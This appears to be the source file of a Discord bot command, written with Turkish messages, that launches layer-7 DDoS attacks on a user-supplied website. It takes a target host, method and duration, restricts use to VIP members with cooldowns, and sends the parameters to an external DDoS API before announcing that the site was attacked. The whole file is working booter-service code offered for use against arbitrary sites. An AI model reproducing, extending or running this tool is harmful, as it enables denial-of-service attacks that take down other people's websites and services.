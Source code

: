 const axios = require("axios")
const { roller, sunucuID } = require('../ayarlar')
const wrendaa = require("../ayarlar")
const discord = require('discord.js')

module.exports = {
    name: "layer7",
    description: "",
    command: new discord.SlashCommandBuilder().setName("layer7").setDescription("Belirtilen siteye DDOS atar.")
    .addStringOption(o => o.setName("host").setDescription("Bir site belirtin.").setRequired(true))
    .addStringOption(o => o.setName("method").setDescription("Bir method belirtin.").addChoices({name:"HTTPCLASS", value:"HTTPCLASS"}).setRequired(true))
    .addNumberOption(o => o.setName("time").setDescription("Bir süre belirtin max (60) VIP için (120).").setRequired(true)),
    usage: "",

    root: false,
    async execute(client, int, reply, log) {



        let host = int.options.getString("host")
        let method = int.options.getString("method")
        let time = int.options.getNumber("time")
        const timeout = client.timeoutddos
        let limit = timeout.get(int.user.id) || 0
        let member = client.guilds.cache.get(sunucuID).members.resolve(int.user.id)
        if(!member) return reply(`discord.gg/oyunalani discordunda olmalisin!`)

        if(limit > 0) return reply(`${limit} saniye boyunca bu komutu kullanamazsin.`)
        if(time <= 0) return reply(`0 dan yuksek bir zaman gir.`)

        if(member.roles.cache.has(roller.vip) === true) {
            if(time > 120) return reply(`Sure sinirini geçtin.`) 
        } else if(member.roles.cache.has(roller.vip) === false) {
           return reply(`Bu komutu kullanmak için vip olmalisin!`)
        }

        log(`${host} ${time} suresi boyunca sitesine DDOS atildi`,`DDOS Atildi`)

let api = axios.get(`${wrendaa.api.DDOS}host=${host}&port=80&method=${method}&time=${time}`)
let api2 = await api
console.log(api2.data)
await timeout.set(int.user.id, time)
await int.followUp(`${host} sitesine DDOS atildi.`).then(() => {
    setTimeout(() => {
        timeout.set(int.user.id, 0)
    }, time * 1000)
})
}
}